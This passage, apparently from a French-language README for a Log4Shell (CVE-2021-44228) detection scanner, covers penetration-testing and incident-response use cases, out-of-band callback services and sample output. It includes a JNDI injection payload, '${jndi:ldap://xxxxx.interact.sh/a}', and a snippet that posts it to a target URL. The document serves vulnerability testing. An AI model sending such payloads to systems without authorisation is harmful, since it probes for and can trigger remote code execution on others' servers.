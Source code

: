 ### 4. Test POST JSON
```python
requests.post(target_url, json={"data": payload}, timeout=5, verify=False)
```

## Cas d'usage

### Tests de pénétration
- **Audit de sécurité** : Vérifier la présence de Log4Shell
- **Tests de régression** : S'assurer que les correctifs sont appliqués
- **Évaluation de risque** : Identifier les applications vulnérables
- **Documentation** : Prouver l'existence de la vulnérabilité

### Gestion des incidents
- **Réponse d'urgence** : Identifier rapidement les systèmes vulnérables
- **Priorisation** : Classer les applications par niveau de risque
- **Validation de correctifs** : Vérifier l'efficacité des patches
- **Surveillance continue** : Monitoring des nouvelles déploiements

## Services de callback

### interact.sh (Gratuit)
```bash
# Obtenir un sous-domaine unique
curl https://interact.sh/
# Utiliser le sous-domaine retourné
python detecteur_log4shell.py -u "https://target.com" -c "xxxxx.interact.sh"
```

### Burp Collaborator (Payant)
```bash
# Utiliser Burp Suite Professional
# Copier l'URL du Collaborator depuis Burp
python detecteur_log4shell.py -u "https://target.com" -c "burp-subdomain.burpcollaborator.net"
```

### Service personnalisé
```python
# Créer son propre serveur de callback
import socket
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('0.0.0.0', 53))  # Port DNS
server.listen(5)
```

## Exemple de sortie

### Test en cours
```
╔══════════════════════════════════════════════════════════╗
║                                                              ║
║  🐞 Détecteur-Log4Shell v1.0.0                           ║
║                                                              ║
║  Scanner de vulnérabilité Log4Shell (CVE-2021-44228).       ║
║  Créé par ozGod                                           ║
║                                                              ║
╚══════════════════════════════════════════════════════════╝

[*] Payload généré : ${jndi:ldap://xxxxx.interact.sh/a}
[*] URL de callback : xxxxx.interact.sh

```